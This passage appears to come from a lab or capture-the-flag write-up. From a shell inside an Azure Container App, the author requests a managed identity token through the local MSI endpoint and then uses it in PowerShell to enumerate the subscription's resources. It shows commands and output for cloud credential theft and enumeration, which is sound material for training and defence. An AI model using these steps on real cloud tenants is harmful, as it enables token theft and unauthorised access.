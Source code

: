 ```
CONTAINER_APP_REVISION=project-oakley--uamwltf
MSI_ENDPOINT=http://localhost:12356/msi/token
_=/usr/bin/env

```
We see those variables, we can request a token for the managed identity
```
sh-5.1# curl -H "X-IDENTITY-HEADER: $IDENTITY_HEADER" "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2019-08-01"
{"access_token":"<REDACTED>","expires_on":"1758735816","resource":"https://management.azure.com","token_type":"Bearer","client_id":"84641d9f-07fb-4299-9dc9-ff0920c77ee5"}
```

Now save token in the Powershell and let's enumerate resources
```
$headers = @{
    Authorization = "Bearer $mitoken"
    "Content-Type" = "application/json"
}
$subscriptionId = "ceff06cb-e29d-4486-a3ae-eaaec5689f94"
$apiVersion = "2021-04-01"
$uri = "https://management.azure.com/subscriptions/$subscriptionId/resources?api-version=$apiVersion"

$response = Invoke-RestMethod -Uri $uri -Method Get -Headers $headers
$response.value | Format-Table Name, Type, Location
```
Or
```
└─PS> Connect-AzAccount -AccessToken $mitoken -AccountId 63410fce-5fe2-42f9-85cf-8463fff2d456
Subscription name           Tenant
-----------------           ------
Microsoft Azure Sponsorship 2590ccef-687d-493b-ae8d-441cbab63a72
```
```
└─PS> Get-AzResource

Name              : workspacembtrg14839a
ResourceGroupName : mbt-rg-14
ResourceType      : Microsoft.OperationalInsights/workspaces
Location          : eastus
ResourceId        : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-14/providers/Microsoft.OperationalInsights/workspaces/workspacembtrg14839a
Tags              : 

Name              : managedEnvironment-mbtrg14-883e
ResourceGroupName : mbt-rg-14
ResourceType      : Microsoft.App/managedEnvironments
Location          : eastus
ResourceId        : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-14/providers/Microsoft.App/managedEnvironments/managedEnvironment-mbtrg14-883e
Tags              : 

Name              : project-oakley
ResourceGroupName : mbt-rg-14
ResourceType      : Microsoft.App/containerApps
Location          : eastus
ResourceId        : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-14/providers/Microsoft.App/containerApps/project-oakley
Tags              : 

Name              : project-oakley-43632
ResourceGroupName : mbt-rg-14
ResourceType      : Microsoft.DocumentDb/databaseAccounts
Location          : eastus2
```